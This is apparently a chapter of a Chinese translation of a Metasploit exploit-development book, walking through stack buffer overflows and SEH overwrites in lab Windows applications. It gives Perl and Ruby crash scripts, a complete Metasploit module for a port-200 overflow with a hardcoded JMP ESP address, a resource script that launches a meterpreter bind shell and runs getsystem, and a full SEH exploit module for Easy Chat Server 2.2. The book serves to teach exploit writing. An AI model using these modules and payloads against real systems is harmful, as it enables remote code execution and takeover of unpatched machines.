

我们可以清楚地看到 EIP 寄存器中的值包含导致程序崩溃的输入。GDB 有助于调试在 Linux 上运行的应用程序。

### 注

有关 GDB 的更多信息，请访问[http://www.tutorialspoint.com/gnu_debugger/index.htm](http://www.tutorialspoint.com/gnu_debugger/index.htm) 。

# 建立开发基地

我们现在已经熟悉了开发过程中执行的大多数过程。我们看到了调试器是如何工作的，我们看到了如何在覆盖发生后找出各种寄存器中的值。因此，现在让我们看看如何使用 Metasploit 及其各种工具完成漏洞利用的编写过程。

## 计算缓冲区大小

让我们继续前面讨论的*生成垃圾*部分。让我们试着找到坠机的确切位置，并回答我们头脑中关于该方法的尚未解决的问题。但是，这里我们将使用一个不同但类似的应用程序。您可以从本节末尾的信息框中找到易受攻击应用程序的参考链接。好的，让我们再次创建一个模式：



要使用 Metasploit 中的`pattern_create.rb`工具创建 500 个垃圾数据字节的模式，我们需要将此模式作为输入提供给目标应用程序。这次我们将其保存到一个文件中：


现在，具有可变输入的文件准备就绪。让我们使用 telnet 建立到目标的连接，并像前面一样提供变量输入文件作为输入。但是，请确保目标应用程序正在通过调试器运行，如以下屏幕截图所示：



崩溃将正常发生，寄存器的状态与前面的屏幕截图类似。

我们可以在 EIP 中看到我们有`41386741`。让我们记下这个值，然后回到攻击者系统。我们在 Metasploit 中有另一个工具名为`pattern_offset.rb`；让我们向其输入值，看看我们得到了什么样的响应：


最后，我们得到了使应用程序崩溃所需的确切字节数。然而，`pattern_offset.rb`怎么能这么快找到价值呢？这个问题的答案是`pattern_create.rb`。它创建了一个具有计算值的模式，这样无论 EIP 中显示什么，我们都可以提供该值，并使用`pattern_offset.rb`在模式中搜索导致崩溃的确切字节数。了解覆盖 EIP 的确切大小是多么容易。让我们也记下这个值。

### 注

上述示例中使用的易受攻击应用程序可在[中找到 https://www.corelan.be/index.php/2009/08/12/exploit-writing-tutorials-part-4-from-exploit-to-metasploit-the-basics/](https://www.corelan.be/index.php/2009/08/12/exploit-writing-tutorials-part-4-from-exploit-to-metasploit-the-basics/) 。

## 计算 JMP 地址

正如我们前面讨论的那样，我们不能简单地将外壳代码放在被覆盖的 EIP 之前。我们需要跳转到一个外部文件，然后指出要加载外壳代码的 ESP。因此，为了找到跳转的地址，我们需要在崩溃发生后打开**可执行模块**，并像前面一样从列表中选择任何文件。让我们选择`USER32.dll`文件并对其进行搜索。要搜索 ESP 寄存器的跳转地址，我们可以按*Ctrl*+*F*，然后查找`JMP ESP`，如下图所示：



这里的动机是找出跳转到 ESP 寄存器的地址。当我们得到这个位置时，我们可以加载外壳代码以从 ESP 开始。

在找到 JMP ESP 指令后，我们需要记下它对应的地址。这是我们案例中的**77D8AF0A**，如下图所示：



**77D8AF0A**地址是我们需要加载到 EIP 寄存器中的地址。因此，当我们用垃圾数据填充应用程序缓冲区并将此地址加载到 EIP 时，它将指向 ESP 寄存器。接下来，我们将提供外壳代码，以便轻松控制应用程序。

## 检查 EIP

现在让我们通过将自定义值放入 EIP 寄存器来确认 EIP 覆盖。到目前为止，我们知道我们需要 204 字节的垃圾来覆盖 EIP。让我们为 EIP 覆盖创建一个简单的 Perl 脚本：

```
use strict;
use Socket;
my $bufstuff = "\x41" x204;
my $eip  = "\x42\x42\x42\x42";
my $targetaddr = shift || '192.168.75.130';
my $targetport = shift || 200;
my $tcpproto = getprotobyname('tcp');
my $binaryaddr = inet_aton($targetaddr);
my $openaddr = sockaddr_in($targetport, $binaryaddr);
print "[+] Setting and Preparing the Socket\n";
socket(SOCKET, PF_INET, SOCK_STREAM, $tcpproto) or die "socket: $!";
print "[+] Connecting to $targetaddr on port $targetport\n";
connect(SOCKET, $openaddr) or die "connect: $!";
print "[+] Sending Data\n";
print SOCKET $bufstuff. $eip."\n";
print "[+] Data Sent\n";
close SOCKET or die "close: $!";
```

前面的脚本将发送 204 个`A`字符和四个`B`字符。如果 EIP 结果为**4242**，这将意味着它正是我们在 204 字节数据之后提供的。那么，让我们使用**免疫调试器**来检查 EIP：



很好，我们可以看到 EIP 现在包含四个`B`字符。因此，我们确认缓冲区的确切大小为 204，我们提供的任何东西都直接进入 EIP。

### 剧本

让我们分析一下我们使用的脚本。第一行写着`use strict`是一个**布拉格语**。它做了两件事，使得编写糟糕的软件变得更加困难。它使您能够声明所有变量，并且使 Perl 在使用 Sub 时更难误解您的意图。现在，`socket`定义了`PF_INET`和`SOCK_STREAM`的用法，用于建立连接。接下来，我们用发送给目标的值创建所需的变量。`getprotobyname()`方法为数据库中与协议名称匹配的条目返回预定义的结构，在我们的例子中是 TCP。`Inet_aton()`方法将 IP 的结构更改为二进制形式。`sockaddr_in`方法使用目标端口定义到目标主机的连接。接下来，我们设置一个套接字并建立连接。现在，我们只需使用`print SOCKET`命令将数据放入已建立的套接字，该命令将数据发送到目标。

## 为了乐趣和利润而填充应用程序

假设覆盖应用程序的 EIP 寄存器。但是，我们仍然无法执行有效负载。在这种情况下，我们分析寄存器，发现外壳代码没有加载到正确的位置。因此，如果不知道如何将值加载到准确的位置，我们将无法正确执行我们的漏洞利用。当 EIP 和 ESP 之间存在一定空间时，可能会出现这种情况。在下一节中，我们将了解如何克服这些情况，并将数据填充到所需的位置。

## 检查 ESP

在我们确认缓冲区的大小后，我们的下一个任务是确认 ESP 上外壳代码的启动。让我们向 ESP 发送一些数据，并检查是否正确加载到 ESP 中。要实现这一点，我们需要修改脚本以发送包含 ESP 内容的数据，如以下代码段所示：

```
use strict;
use Socket;
my $bufstuff = "\x41" x204;
my $eip  = "\x42\x42\x42\x42";
my $esp = "\x43\x43\x43";
my $targetaddr = shift || '192.168.75.130';
my $targetport = shift || 200;
my $tcpproto = getprotobyname('tcp');
my $binaryaddr = inet_aton($targetaddr);
my $openaddr = sockaddr_in($targetport, $binaryaddr);
print "[+] Setting and Preparing the Socket\n";
socket(SOCKET, PF_INET, SOCK_STREAM, $tcpproto) or die "socket: $!";
print "[+] Connecting to $targetaddr on port $targetport\n";
connect(SOCKET, $openaddr) or die "connect: $!";
print "[+] Sending Data\n";
print SOCKET $bufstuff. $eip. $esp."\n";
print "[+] Data Sent\n";
close SOCKET or die "close: $!";
```

我们可以看到，我们已经创建了一个新变量`esp`并为其分配了三个`C`。让我们再次开始发送数据的过程，并检查数据是否正确加载到 ESP 寄存器中：



我们可以清楚地看到，ESP 的内容是**CCC**。这标志着 ESP 寄存器的成功覆盖。我们现在可以直接将外壳代码发送到 ESP。

## 填充空间

此处的一点是，有时 ESP 字段中发送的数据可能不会从数据的实际开始处开始。在这种情况下，如果 EIP 和 ESP 之间存在差距，我们将创建一个新变量，并用实际数据中缺少的字符数填充它。假设我们发送`ABCDEF`到 ESP；但是，当我们使用**免疫调试器**进行分析时，我们得到的内容仅为`DEF`。在本例中，我们缺少三个字符。因此，我们将创建一个三个字节的变量，并在 EIP 之后再发送外壳代码。这意味着我们正在用三个字节的随机数据填充 EIP 和 ESP 之间的空间。

在本例中，我们将把脚本修改为以下代码段：

```
my $junk2="\x44\x44\x44"; Add this line to Variables
print SOCKET $junk. $eip. $junk2\. $esp."\n"; Modify to include junk2
```

我们将第一行附加到变量声明部分，并修改数据，将新创建的变量包含在`print SOCKET`行中。

# 完成漏洞利用

在完成了为利用漏洞编写收集基本信息的困难会话之后，现在让我们最终深入编写利用漏洞的 Metasploit 代码，并完全拥有一个目标。

## 判定不良字符

有时可能会发生这样的情况：在设置好所有可以利用的东西之后，我们可能永远无法利用系统。或者，我们的攻击可能已经完成，但负载无法执行。当变量数据或有效负载中生成的某些字符无法执行时，可能会发生这种情况。这将使整个漏洞无法使用，我们将努力使外壳或流量计返回系统。在这种情况下，我们需要确定阻止执行的错误字符。要处理这种情况，最好的方法是找到匹配的漏洞，并在漏洞中使用其中的坏字符。

我们需要在漏洞的`Payload`部分定义这些坏字符。让我们看一个例子：

```
  'Payload'        =>
        {
          'Space'    => 800,
          'BadChars' => "\x00\x20\x0a\x0d",
          'StackAdjustment' => -3500,
        },
```

上一节参考`/exploit/windows/ftp`下的`freeftpd_user.rb`文件。

## 确定空间限制

`Payload`中的`Space`变量确定要加载外壳代码的空间。我们需要分配足够的空间来加载有效负载的外壳代码。如果有效负载较大且分配的空间小于外壳代码，则不会执行。此外，在编写自定义漏洞利用时，外壳代码应尽可能小。我们可能会遇到这样的情况：可用空间仅为 200 字节，但可用外壳代码至少需要 800 字节的空间。在这种情况下，我们可以在*下载和执行*机制上使用外壳代码。它将首先下载第二个外壳代码并执行它，因为它本身是一个小使用者。

### 提示

有关各种有效载荷的较小外壳代码，请访问[http://www.shell-storm.org/shellcode/](http://www.shell-storm.org/shellcode/) 。

## 在 Metasploit 下制作

让我们为之前使用 Perl 脚本崩溃的应用程序创建示例利用代码。让我们看看代码：

```
require 'msf/core'
class Metasploit3 < Msf::Exploit::Remote

      include Msf::Exploit::Remote::Tcp

      def initialize(info = {})
                super(update_info(info,
                        'Name'           => 'Example Attack On Port 200',
                        'Description'    => %q{
                                        Buffer Overflow on port number 200
                                             },
                        'Author'         => [ 'Nipun Jaswal' ],
                        'DefaultOptions' =>
                                {
                                        'EXITFUNC' => 'process',
                                },
                        'Payload'        =>
                                {
                                        'Space'    => 1500,
                                        'BadChars' => "\x00\xff",
                                },
                        'Platform'       => 'win',

                        'Targets'        =>
                                [
                                        ['Windows XP SP2 En',
                                          { 'Ret' => 0x77D8AF0A, 'Offset' => 204 } ],
                                ],
                        'DefaultTarget' => 0,
                        ))

                        register_options(
                        [
                                Opt::RPORT(200)
                        ], self.class)
       end

       def exploit
          connect
          buffstuff = make_nops(target['Offset'])
          overflowquery = buffstuff + [target.ret].pack('V') + make_nops(50) + payload.encoded
          sock.put(overflowquery)
          handler
          disconnect
       end
end
```

让我们看看我们是如何构建这个漏洞的。在上一章中，我们广泛地介绍了图书馆部分，因此我们将不再讨论图书馆。

我们将默认选项中的`EXITFUNC`选项设置为`process`，因为如果主进程退出，它应该自动重新启动。`Payload`选项包含坏字符和空格变量。然而，我们在*确定不良字符*和*确定空间限制*部分讨论了这两个问题。接下来，我们将`Platform`设置为`win`，表示目标操作系统是基于 Windows 的操作系统。我们在`Targets`部分有两个有趣的字段。第一个是`Return Address`，这是我们在**免疫调试器**中使用**可执行模块**找到的同一个地址，它将帮助我们跳转到 ESP。然后，我们有`Offset`这是缓冲区大小，或者我们可以说填充缓冲区的确切字节数。这与我们使用`pattern_offset.rb`找到的值相同。接下来，我们将`DefaultTarget`设置为`0`，表示 Windows XP 框。接下来，我们默认将`RPORT`设置为`200`。

现在让我们关注一下`exploit`部分，因为我们现在已经熟悉了`connect`函数，因为在上一章中，我们已经在很多辅助模块中使用了它。我们进一步讨论下一个生成 204 个 NOP 的语句。我们可以直接使用一个名为`make_nops()`的内置 Metasploit 方法来生成任意数量的 nop。在这里，我们从包含 204 的`Targets`部分提供了`Offset`的值，这是完全填充缓冲区的字节数。我们将这些 NOP 存储在名为`buffstuff`的变量中。这与我们在 Perl 脚本中遵循的过程完全相同。唯一的区别是，我们不发送 204 次`A`字符，而是发送 204 个 NOP。

接下来，我们创建一个名为`overflowquery`的变量，并将 NOP 后跟跳转地址存储到 ESP，我们已将其保存在`targets`部分的变量`Ret`中，如前所述，以反向格式打包，记得吗？按相反顺序一次两个字节。是 啊然后，我们再次提供 50 个 NOP 以消除 EIP 和 ESP 之间空间中的任何不规则，最后，我们以编码格式发送有效负载的外壳代码。我们将`overflowquery`变量发送到目标，并可能将绑定 shell 发送到系统上，如以下屏幕截图所示：



## Metasploit 中的自动化功能

让我们谈谈 Metasploit 中的自动化功能。我们还可以使用`.rc`脚本自动化整个 Metasploit 开发过程。在 Metasploit 环境下运行这些资源脚本时，会自动执行手动过程，从而节省每次重新启动 Metasploit 框架时设置选项的时间。但是，我们可以自动化 Metasploit 中的每种类型的操作。我们可以自动设置特定模块的选项，直到开发后。

让我们将前面的攻击自动化到名为`hack.rc`的自动化脚本中：

```
use exploit/windows/games/200
set RHOST 192.168.75.130
set payload windows/meterpreter/bind_tcp
exploit
```

我们将前面的代码保存为`hack.rc`在`/scripts`下的`resource`文件夹中。让我们重新启动 Metasploit 并键入以下命令：



现在，让我们创建一个利用后脚本并查看输出。我们创建了一个简单的脚本来自动执行一些利用后脚本：



正如我们所看到的，我们已经自动化了脚本来执行各种后期开发功能。让我们看看这个脚本的源代码是什么：

```
getuid
getsystem
getuid
run checkvm
getpid
```

当时间是金钱时，创建这样的脚本总是很方便的。

# 结构化异常处理程序的基本原理

异常是在程序执行过程中发生的事件。在操作系统中，我们有两种不同类型的异常，即硬件和软件。CPU 在执行某些指令和访问无效内存地址时，会出现硬件异常。基于软件的异常由操作系统上当前运行的程序和应用程序启动。

**结构化异常处理**（**SEH**）是一种处理操作系统中发生的两种类型异常的机制。当我们向可利用环境中的应用程序发送数据时，它将引发异常，异常处理程序将处理该异常。这将防止目标软件崩溃。这使软件免受溢出攻击。让我们讨论如何处理这些情况，以及如何在应用程序中绕过基于 SEH 的保护。

## 控制 SEH

基于 SEH 的攻击的目的是覆盖处理所有异常的 SEH 块的地址。此外，目的是获得加载外壳代码所需的确切位置。现在，我们如何才能做到这一点？让我们看一个基于 SEH 的漏洞利用示例。

这里，我们有一个名为**Easy Chat Server**的应用程序，版本为 2.2。此应用程序使用 SEH 处理不需要的异常。此应用程序的界面如以下屏幕截图所示：



让我们创建一个示例 Ruby 脚本，看看应用程序是否在某个地方崩溃。但是，请确保将其附加到调试器。让我们看看脚本：

```
require 'net/http'
require 'uri'
require 'socket'
buffstuff = "\x41" * 300
targeturl = URI.parse('http://192.168.75.141')
responc = Net::HTTP.start(targeturl.host,82) {|http|
http.get('/chat.ghp?username=' +buffstuff+ '&password=' +buffstuff+ '&room=1&sex=2')
}
puts responc.body
```

现在让我们用 Ruby 运行这个脚本，看看**免疫调试器**中的应用程序会发生什么情况：


我们可以看到，我们无法覆盖 EIP。但是，应用程序已经崩溃。让我们看看 SEH 连锁店，看看那里到底发生了什么。在**免疫调试器**中，点击**视图**页签，选择**SEH 链**即可看到。这可能类似于以下屏幕截图：



我们可以看到，我们提供的数据覆盖了 SEH 处理程序，而不是 EIP。因此，我们可以控制 SEH 链中的地址。

## 绕过 SEH

现在绕开 SEH；我们需要将自定义值加载到 SEH 处理程序中。让我们记住`pattern_create.rb`和`pattern_offset.rb`的美好往事。我们需要创建一个 500 字节的模式，并将其作为输入提供给应用程序，就像我们在前面的示例中所做的那样。EIP 寄存器的值将准确确定覆盖 SEH 所需的字节数，如以下屏幕截图所示：



结果显示该值为`220`。但是，为了从一开始就提供内容，我们删除了四个字节。让我们修改脚本的部分，并向其中添加两个变量`hack`和`hack2`：

```
hack= "\xDD\xDD\xDD\xDD"
hack2= "\x44" * 100
buffstuff = "\x41" * 216 + hack + hack2 
```

现在，让我们通过发送数据再次检查，并再次分析 SEH 链：



然而，在这个阶段最重要的事情是实际加载到 SEH 块中的内容。这个问题的答案是我们不会用地址覆盖它。相反，我们将在那里放置一条机器指令以跳转字节数。

现在，让我们找到下一个重要的东西，那就是 POP-POP-RETURN 地址。通常，我们正在做的工作和需要执行的工作如下：

1.  使应用程序崩溃，以便生成异常。
2.  使用有效负载的跳转指令覆盖 SEH 字段，以便进行短跳转。
3.  使用指向 POP-POP-RETURN 序列的指针覆盖 SEH 处理程序字段，该序列将帮助它指向有效负载。

现在执行将转到 SEH 指定的地址。那么，让我们找到 POP-POP-RETN 的地址：


从可执行模块列表中，我们可以看到我们有三个模块；但是，我们需要选择前导值为`1`的，因为如果我们选择带`00`的值，它将不会被执行，因为它可能被认为是一个坏字符。

在这里，我们将打开`SSLEA32.dll`文件。此外，在打开`SSLEA32.dll`文件后，我们需要找到确切的 POP-POP-RETURN 序列：



我们需要记下这个值。到目前为止，我们已经收集了开发所需的所有值。让我们转到 Metasploit 来创建一个漏洞。

## 基于 SEH 的漏洞利用

现在，让我们为该应用程序创建一个漏洞，并了解更多信息：

```
require 'msf/core'
class Metasploit3 < Msf::Exploit::Remote
  include Msf::Exploit::Remote::HttpClient

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Easy Chat SEH BOF',
      'Description'    => %q{
          This exploits a SEH based BOF on easy chat server
      },
      'Author'         => [ 'Nipun Jaswal' ],
      'Payload'        =>
        {
          'Space'       => 1024,
          'BadChars'    => "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c",
        },
      'Platform'       => 'win',
      'Targets'        =>
        [
          [

      'Easy Chat',
            {
              'Ret'    => 0x1002bd33,
              'Length' => 1036
            },
          ]
        ],
      'DefaultTarget'  => 0
))
  end
  def exploit
    print_status("Overwriting SEH")
    jmpaddr = "\xeb\x06\x90\x90"
    ppraddress = "\xa2\xb9\01\x10"
    buffstuff = "\x41" * 216 + jmpaddr + ppraddress + payload.encoded	
    send_request_raw({
      'uri' =>
        "/chat.ghp?username=" +buffstuff+
        "&password=" +buffstuff+"&room=1&sex=2"
    }, 2)
    handler
  end
end
```

该漏洞的结构与前一个类似。让我们看看过程。

这里的第一个变量是`jmpaddr`，它存储了前面讨论过的机器指令。`\xeb`指令表示短跳转。`\x06`指令表示要跳转的字节数，`\x90`表示 NOP 填充，使其成为一组四个字节。

接下来，`ppraddress`变量将 POP-POP-RETURN 的地址存储为**Endean**格式或反向存储方法，记得吗？我们以前也这样做过。

现在，我们只需创建一个名为`buffstuff`的缓冲区，它将 216 个`A`字符的值与后面的`jmpaddr`字符连接起来。然后是 POP-POP-RETURN 地址，即`ppraddress`值，最后是有效负载。

前面名为`buffstuff`的变量将用指向我们的有效负载的 POP-POP-RETURN 值覆盖 SEH。

接下来，我们将其作为请求发送，并在`username`和`password`字段中填充缓冲区。

让我们看看它的样子：



### 注

有关基于 SEH 的漏洞利用的更多信息，请访问[https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/](https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/) 。

# 总结

在这一章中，我们介绍了汇编在利用上下文写作中的要点、通用寄存器（如 EIP 和 ESP）以及它们在利用上下文中的重要性。然后，我们讨论了找出缓冲区大小的方法、指向外壳代码的方法以及管理 ESP 的方法。我们研究了 Perl 和 Ruby 中的各种脚本，然后研究了坏字符和空间限制的重要性。现在，我们能够在支持工具的帮助下，在 Metasploit 中为软件编写漏洞利用，使用调试器，确定重要寄存器和覆盖它们的方法，以及利用复杂的基于 SEH 的漏洞利用。

在下一章中，我们将介绍 Metasploit 中目前不可用的公开漏洞利用。我们将尝试在 Metasploit 框架下移植它们。